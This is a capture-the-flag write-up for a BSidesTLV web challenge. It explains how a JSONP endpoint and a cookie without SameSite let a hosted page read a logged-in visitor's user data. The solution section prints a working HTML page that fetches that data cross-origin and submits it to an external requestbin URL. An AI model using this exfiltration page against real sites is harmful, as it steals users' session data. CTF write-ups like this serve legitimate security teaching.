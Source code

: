 # Challenge Instructions

```
Hi Agent! Your mission is to exfiltrate data of our target, so we can catch him! Can you do it?

URL: https://can-you-bypass-the-sop.ctf.bsidestlv.com/

BOT: https://can-you-bypass-the-sop.ctf.bsidestlv.com/bot
```

# Discovery

So the first thing that I realize is that we have a BOT url. Clicking on it brings us to a page with not much going on except for a textfield for a URL and a "Browse" button. From previous CTFs, this seemed like some sort of URL click bot that was running that would navigate to whatever URL was passed it. So to make sure, I fired up a request bin and passed in the URL to the bot. Sure enough, we get a hit.

![Test request bin](./requestbin.PNG)


With this in mind and the fact that the challenge name uses the term SOP, we're likely looking for some XSS variation that we can store inside a link or a webpage that we can send to the BOT to gain any secrets that it may hold.

After navigating to the main url, we're presented with a login page. We immediately see a "JOIN AS A GUEST" button. Clicking this grants us access to a welcome screen as a guest user. After being logged in as a guest, I noticed a JWT token added to my cookie storage in my browser, `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiZmxhZyI6IllvdSBhcmUgb24gdGhlIHJpZ2h0IHRyYWNrISIsImlhdCI6MTU5MzU1NjY3MX0.BOh06azgJcQFjPkzbYG4FnCUNsyfLniedmwXVgM9-0k`

Decoding the token, we get

```JSON
{
  "alg": "HS256",
  "typ": "JWT"
}

{
  "username": "Guest",
  "flag": "You are on the right track!",
  "iat": 1593556671
}
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  256 secret,
) 
```

Interesting, the payload in the JWT token has a flag field. Also, the `SameSite` security flag was not set on the cookie, meaning the browser will send this cookie if the user navigates to this site from another site or if this site was encapsulated in an iframe or <img> tag src attribute. It seems likely that if we can come up with some type of XSS, the user who clicks on our link will have their credentials passed in, even if the link was not originally from the `https://can-you-bypass-the-sop.ctf.bsidestlv.com` site. 

Snooping some more, we find the application code in the main.js file `https://can-you-bypass-the-sop.ctf.bsidestlv.com/js/main.js`. This script file stores the JavaScript functions that are called when someone signs in or joins as a guest. The function we are particular interested in is

```javascript
function signIn() {
    let http = new XMLHttpRequest();
    http.open('POST', 'signIn', true);
    http.setRequestHeader('Content-type', 'application/json');
    http.onreadystatechange = function() {//Call a function when the state changes.
        if(http.readyState === 4 && http.status === 200) {
            $.ajax({
                dataType: 'jsonp',
                jsonp: 'callback',
                url: '/FetchUserInfo?callback=?',
                success: function (data) {
                    $("#login").html(
                        `<span class="login100-form-title p-b-70">Welcome ${data.username}!</span>
                                     <span class="login100-form-avatar">
                                     <img src="images/avatar-01.jpg" alt="AVATAR"></span>
                                     <div class="container-login100-form-btn" style="margin-top: 20px">
                                        <button class="login100-form-btn" id="select_div_SIGNIN" onclick="signOut()">
                                            Sign Out
                                        </button>
                                     </div>`);
                }
            });
        }
    };
    http.send(JSON.stringify({username: "Guest"}));
}
```

Something that should catch your eye pretty quickly is the second AJAX request and its use of the jsonp data type. A little background on JSONP, it is a mechanism that REST endpoints employed to bypass the same origin policy (SOP). The same-origin policy is a security mechanism that browsers and web sites use to ensure that scripts and resources that are loaded from one origin cannot access resources from another origin. This is why if you navigated to your browser's web console while on a website and start making AJAX calls to another website on a different domain, your browser would stop you, as it would be breaching the SOP.

Some JSONP configurations allow you to define a `callback` parameter that is a function that is defined on the client side that when the request returns, it is automatically invoked and the code is executed. Navigating to the endpoint in question, we can see exactly what is happening. First by passing in `callback=i_control_this`
![callback example](./callback1.PNG)

and now `callback=with_whatever_I_want`

![callback example 2](./callback2.PNG)

Hmm, the callback function is being passed the payload to our JWT token. This is the last piece to our puzzle! If we can create a function that will ingest the object being passed back to to the JSONP callback function, we can send it as a URL parameter to an endpoint that we control and log the results.

Lets see what we can come up with!

# Solution

To put this all together we need 2 things.

1. We need to set up a requestbin to catch our request that will have the stolen cookie. That is simple enough.

2. To deploy the XSS, we need a way to host a web page. There are several services out there or you can use your own hosted website. I used [repl.it](https://repl.it/), which allows you to spin up proof of concept code snippets incredibly quickly. Below is the index.html file that is served whenever someone lands on my custom hosted website. 
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width">
    <title>repl.it</title>
    <link href="style.css" rel="stylesheet" type="text/css" />
    <script src="https://code.jquery.com/jquery-1.8.2.min.js"></script>
  </head>
  <body>
    <form action="https://requestbin.net/r/w4xs0xw4" method="GET" >
    <input type="hidden" name="data" value="template" id="input" />
    <script>
      $(document).ready(function(){
        $.ajax({
                dataType: 'jsonp',
                jsonp: 'callback',
                url: 'https://can-you-bypass-the-sop.ctf.bsidestlv.com/FetchUserInfo?callback=?',
                success: function (data) {
                    /*let http = new XMLHttpRequest()
                    http.open('POST', 'https://requestbin.net/r/w4xs0xw4', true);
                    http.setRequestHeader('Content-type', 'application/json');
                    http.send(JSON.stringify(data));*/
                    var input = document.getElementById("input");
                    console.log(data);
                    input.value = data.flag;
                    document.forms[0].submit();
                }
            });
      });
    </script>
  </body>
</html>
```

What this does is call the JSONP enabled endpoint, the same one that the original website does, as soon as the web page loads. Because the token cookie is not secured as mentioned before, if the user that navigates to this malicious URL is already signed into the `https://can-you-bypass-the-sop.ctf.bsidestlv.com`, the browser will do them a "favor" and send the token cookie along with the request ensuring that they will not need to log in again. Once the request from this endpoint returns, it will bring back the response from the JSONP endpoint with the object now in the logged in user's context. So, if someone that isn't `Logged in as guest` were to click on this link, they will have their own data object returned in the JSONP response.

Once we get that data back, the code can then append it as a URL parameter to GET request to our requestbin that is waiting for us which is what the success function does. It assigns the flag parameter as the hidden input value of our form and then submits it, effectively submitting a GET request to our hosted requestbin endpoint.

Pasting in our malicious URL that is hosted by repl.it to the BOT, we then wait a few moments and check our requestbin to find our flag waiting for us.

![flag](./flag.png)